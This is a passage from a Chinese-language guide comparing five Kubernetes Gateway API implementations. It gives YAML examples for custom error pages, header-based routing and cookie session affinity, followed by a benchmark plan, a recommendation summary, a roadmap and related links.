<TabItem value="kgateway" label="kGateway">

:::warning 限制
kGateway 的 RouteOption CRD 不直接支持请求体大小限制。可通过后端服务或 Envoy filter 扩展实现。
:::

</TabItem>
</Tabs>

#### 6. 自定义错误页面

<Tabs>
<TabItem value="aws" label="AWS Native (LBC v3)" default>

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: custom-error
spec:
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /maintenance
    filters:
    - type: ExtensionRef
      extensionRef:
        group: alb.networking.aws.com
        kind: FixedResponse
        name: maintenance-page
---
apiVersion: alb.networking.aws.com/v1
kind: FixedResponse
metadata:
  name: maintenance-page
spec:
  statusCode: 503
  contentType: text/html
  body: |
    <html>
      <body>
        <h1>Under Maintenance</h1>
        <p>We'll be back soon!</p>
      </body>
    </html>
```

</TabItem>
<TabItem value="cilium" label="Cilium">

:::warning 限制
Cilium Gateway API 不支持原生自定义错误页面。需部署独立的错误页面服务并通过 HTTPRoute 进行路由。
:::

</TabItem>
<TabItem value="nginx" label="NGINX Gateway Fabric">

:::warning 限制
NGINX Gateway Fabric 通过 SnippetsPolicy 或独立错误服务路由处理自定义错误。
:::

</TabItem>
<TabItem value="envoy" label="Envoy Gateway">

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: custom-error
spec:
  rules:
  - matches:
    - path:
        type: PathPrefix
        value: /error
    filters:
    - type: ExtensionRef
      extensionRef:
        group: gateway.envoyproxy.io
        kind: DirectResponse
        name: error-response
---
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: DirectResponse
metadata:
  name: error-response
spec:
  statusCode: 503
  body: "Service temporarily unavailable"
```

</TabItem>
<TabItem value="kgateway" label="kGateway">

:::warning 限制
kGateway 可通过 RouteOption transformation 或 faultInjection 配置自定义响应。
:::

</TabItem>
</Tabs>

#### 7. 基于 Header 的路由

所有实现方案均支持的标准 Gateway API 功能。

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: HTTPRoute
metadata:
  name: header-routing
spec:
  rules:
  # 将 beta 用户路由到 beta 后端
  - matches:
    - headers:
      - name: X-User-Type
        value: beta
    backendRefs:
    - name: beta-backend
      port: 8080

  # 将其他用户路由到生产后端
  - backendRefs:
    - name: prod-backend
      port: 8080
```

#### 8. 会话亲和性（基于 Cookie）

<Tabs>
<TabItem value="aws" label="AWS Native (LBC v3)" default>

```yaml
apiVersion: gateway.networking.k8s.io/v1
kind: Gateway
metadata:
  name: production-gateway
  annotations:
    # 启用 ALB 粘性会话
    alb.ingress.kubernetes.io/target-group-attributes: stickiness.enabled=true,stickiness.lb_cookie.duration_seconds=86400
spec:
  gatewayClassName: aws-alb
  listeners:
  - name: http
    port: 80
    protocol: HTTP
```

</TabItem>
<TabItem value="cilium" label="Cilium">

:::warning 限制
Cilium 不支持原生基于 Cookie 的会话亲和性。可通过 CiliumEnvoyConfig 配置 Envoy 的一致性哈希。
:::

</TabItem>
<TabItem value="nginx" label="NGINX Gateway Fabric">

```yaml
apiVersion: gateway.nginx.org/v1alpha1
kind: UpstreamSettingsPolicy
metadata:
  name: session-affinity
spec:
  targetRef:
    group: ""
    kind: Service
    name: backend-service
  sessionAffinity:
    cookieName: BACKEND_SESSION
    cookieExpires: 1h
```

</TabItem>
<TabItem value="envoy" label="Envoy Gateway">

```yaml
apiVersion: gateway.envoyproxy.io/v1alpha1
kind: BackendTrafficPolicy
metadata:
  name: session-affinity
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  loadBalancer:
    type: ConsistentHash
    consistentHash:
      type: Cookie
      cookie:
        name: SESSION_COOKIE
        ttl: 3600s
```

</TabItem>
<TabItem value="kgateway" label="kGateway">

```yaml
apiVersion: gateway.kgateway.io/v1alpha1
kind: RouteOption
metadata:
  name: session-affinity
  namespace: production
spec:
  targetRefs:
    - group: gateway.networking.k8s.io
      kind: HTTPRoute
      name: api-route
  sessionAffinity:
    cookieBased:
      cookie:
        name: SESSION_COOKIE
        ttl: 3600s
```

</TabItem>
</Tabs>

### 4.7 路由选择决策树

使用以下决策树为您的组织选择最优方案。



### 4.8 基于场景的推荐

以下是基于常见组织场景的推荐方案。

<ScenarioRecommendationTable locale="en" />

---

## 5. 基准测试对比规划

计划进行系统化的基准测试，对 5 个 Gateway API 实现方案进行客观的性能对比。将在相同的 EKS 环境中测量吞吐量、延迟、TLS 性能、L7 路由、扩展性、资源效率、故障恢复和 gRPC 共 8 个场景。

:::info 详细基准测试计划
关于测试环境设计、详细场景、测量指标和执行计划，请参阅**[Gateway API 实现方案性能基准测试计划](/docs/benchmarks/gateway-api-benchmark)**。
:::

---

## 6. 总结与未来路线图

### 6.1 总结

<RouteRecommendationTable locale="en" />

根据上表选择最适合您组织的方案。

<Tabs>
<TabItem value="aws" label="AWS All-In" default>

**AWS Native (LBC v3)** — 最小运维开销、托管 ALB/NLB、SLA 保障、AWS WAF/Shield/ACM 集成。最适合以稳定性优先于性能的纯 AWS 环境。

</TabItem>
<TabItem value="cilium" label="高性能">

**Cilium Gateway API** — 超低延迟（P99 低于 10ms）、eBPF 网络、Hubble L7 可观测性、ENI 模式 VPC 原生集成。最适合高性能和 Service Mesh 环境。

</TabItem>
<TabItem value="nginx" label="NGINX 经验">

**NGINX Gateway Fabric** — 利用现有 NGINX 知识、经过验证的稳定性、F5 企业支持、多云。最适合拥有 NGINX 经验且需要快速迁移的团队。

</TabItem>
<TabItem value="envoy" label="CNCF 标准">

**Envoy Gateway** — CNCF 标准、Istio 兼容、丰富的 L7 功能（mTLS、ExtAuth、速率限制、断路器）。最适合规划 Service Mesh 扩展的环境。

</TabItem>
<TabItem value="kgateway" label="AI/ML 集成">

**kGateway** — 统一网关（API+Mesh+AI+MCP）、AI/ML 工作负载路由、Solo.io 企业支持。最适合需要专用 AI/ML 路由的环境。

</TabItem>
<TabItem value="hybrid" label="混合节点">

**Cilium Gateway API + llm-d** — 当通过 EKS Hybrid Nodes 集成云端和本地 GPU 节点时，使用 Cilium 作为统一 CNI 可提供 CNI 统一 + Hubble 集成可观测性 + 内置 Gateway API。AI 推理流量通过 llm-d 的 KV Cache 感知路由进行优化。详见 [Cilium ENI + Gateway API 高级指南](/docs/infrastructure-optimization/gateway-api-adoption-guide/cilium-eni-gateway-api#7-hybrid-node-architecture-and-aiml-workloads)。

</TabItem>
</Tabs>

### 6.2 未来扩展路线图

<RoadmapTimeline locale="en" />

### 6.3 核心信息

:::info
**在 2026 年 3 月 NGINX Ingress EOL 之前完成迁移，从根源上消除安全威胁。**

Gateway API 不仅仅是 Ingress 的替代品，更是云原生流量管理的未来。
- **角色分离**：平台团队和开发团队之间职责清晰分离
- **标准化**：无供应商锁定的可移植配置
- **可扩展性**：向东西向流量、Service Mesh 和 AI 集成扩展
:::

**立即开始：**
1. 收集当前 Ingress 清单（迁移执行策略文档）
2. 选择匹配您工作负载的方案（第 6.1 节）
3. 构建 PoC 环境（迁移执行策略文档）
4. 执行渐进式迁移（迁移执行策略文档）

---

## 相关文档

### 子文档（高级指南）

特定主题的深入内容在单独的子文档中提供。

- **[1. GAMMA Initiative — Service Mesh 集成的未来](/docs/infrastructure-optimization/gateway-api-adoption-guide/gamma-initiative)** — GAMMA 概述、东西向流量管理、Service Mesh 集成架构、实现支持状态
- **[2. Cilium ENI 模式 + Gateway API 高级配置](/docs/infrastructure-optimization/gateway-api-adoption-guide/cilium-eni-gateway-api)** — ENI 模式架构、安装/配置、性能优化（eBPF、XDP）、Hubble 可观测性、BGP Control Plane v2、混合节点架构
- **[3. 迁移执行策略](/docs/infrastructure-optimization/gateway-api-adoption-guide/migration-execution-strategy)** — 5 阶段迁移流程、CRD 安装、验证脚本、故障排除指南

### 相关分类

- [2. CoreDNS 监控与优化](/docs/infrastructure-optimization/coredns-monitoring-optimization)
- [3. 东西向流量优化](/docs/infrastructure-optimization/east-west-traffic-best-practice)
- [4. Karpenter 超快速自动扩缩](/docs/infrastructure-optimization/karpenter-autoscaling)

### 外部参考

- [Kubernetes Gateway API 官方文档](https://gateway-api.sigs.k8s.io/)
- [AWS Load Balancer Controller](https://kubernetes-sigs.github.io/aws-load-balancer-controller/)
- [Cilium Gateway API 文档](https://docs.cilium.io/en/stable/network/servicemesh/gateway-api/gateway-api/)
